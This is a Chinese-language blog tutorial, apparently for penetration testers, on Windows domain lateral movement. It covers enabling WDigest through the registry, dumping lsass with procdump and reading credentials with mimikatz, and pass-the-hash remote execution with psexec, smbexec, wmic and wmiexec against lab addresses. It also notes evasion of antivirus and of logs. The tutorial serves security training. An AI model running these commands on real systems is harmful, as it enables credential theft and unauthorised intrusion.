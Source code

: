 ```yaml
---
layout: post
title: "内网渗透-smb&wmi明文&hash传递"
date: "2023-01-07T09:14:25.833Z"
---
```

内网渗透-smb&wmi明文&hash传递
=====================

首先我们要知道，在windows2012以上版本默认会关闭wdigest，那么攻击者就无法从内存中获取明文密码了

windows2012以下的版本如果安装了KB2871997补丁，那么同样也会导致无法从内存中获取明文密码

windows系统LM Hash以及NTLM Hash加密算法，个人系统在Windows vista后，服务器系统在winserver2003之后，认证方式均为NTLM Hash

针对以上的情况，有四种方式可以解决：

1、利用哈希传递（pth，ptk等）进行移动

2、利用其他的服务协议（smb，wmi等）进行哈希移动

3、利用注册表操作开启Wdigest Auth值进行获取

reg add
HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogonCredential /t REG\_DWORD /d 1 /f

4、利用工具或者第三方平台（hashcat）进行破解获取

（1）Procdump+Mimikatz 配合获取

因为Procdump是微软官方的一个程序，所以不会被杀软给识别，那么就可以使用procdump备份密码然后到本地使用minikatz进行读取

Procdump上执行：procdump -accepteula -ma lsass.exe lsass.dmp

mimikatz 上执行： sekurlsa::minidump lsass.dmp

　　　　　　　　  sekurlsa::logonPasswords full

 如果拿到了hash值，那么就可以使用hashcat去破解

（2）域横向移动SMB服务利用-psexec，smbexec（官方自带）

利用SMB服务可以通过明文或者hash传递来远程执行，条件是445服务端口开放

1）psexec的使用

1.先建立IPC回话，然后使用SMB服务

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106201652523-1256473322.png)

 ![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106201757980-1398161473.png)

 2.直接使用明文连接不需要IPC连接

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106202005320-1960398768.png)

 ![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106202023428-1152560980.png)

 （3）如果没有明文密码，但是拿到了密码的hash值，也可以通过pstool进行连接，但是需要使用的是impacket中的psexec，因为是第三方开发的工具，所以可能会被杀软识别，因此只能看情况去使用

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106202552952-82039936.png)

 2）smbexec的使用

smbexec无需建立ipc的连接，可以使用明文或者hash的传递，但是smbexec是第三方软件同样需要先做免杀才可以，以下是一些使用方法的示例

smbexec god/administrator:Admin12345@192.168.3.21　　连接god域中的administrator用户

smbexec ./administrator:admin!@#45@192.168.3.32　　　 连接本地的administrator用户

hash方法的话需要在minikatz中找到对应用户的密码hash值的NTLM或者LM值，具体使用哪个得看操作系统的版本。

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106203913331-576896792.png)

 然后在使用以下的命令

smbexec -hashes :$HASH$ ./admin@192.168.3.21

smbbexec -hashes :$HASH$ domain/admin@192.168.3.21

smbexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32

smbexec -hashes :ccef208c6485269c20db2cad21734fe7god/administrator@192.168.3.21

（3）域横向移动 WMI 服务利用-cscript,wmiexec,wmic

WMI(Windows Management Instrumentation) 是通过 135 端口进行利用，支持用户名明文或者 hash 的方式进行认证，并且该方法不会在目标日志系统留下痕迹。

自带WMIC　　只能进行明文传递　　无回显

wmic /node:192.168.3.21 /user:administrator /password:Admin12345 process call create "cmd.exe /c ipconfig >C:\\1.txt"

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205009189-196008115.png)

 ![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205023015-1817583004.png)

自带 cscript 　　只能进行明文传递 　　有回显　　但是需要借助一个叫做wmiexec.vbs的文件进行操作![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205202287-1794763031.png)

cscript //nologo wmiexec.vbs /shell 192.168.3.21 administrator Admin12345

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205227167-1600059684.png)

套件 impacket wmiexec 明文或 hash 传递 有回显 exe 版本

wmiexec ./administrator:admin!@#45@192.168.3.32 "whoami"　　本地主机账户

wmiexec god/administrator:Admin12345@192.168.3.21 "whoami"　　域账户

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205352100-1485594123.png)

wmiexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32 "whoami"　　本地主机账户

wmiexec -hashes :ccef208c6485269c20db2cad21734fe7 god/administrator@192.168.3.21 "whoami"　　域主机账户

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205444975-293601675.png)

 所以综上所述：

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205812720-2112335278.png)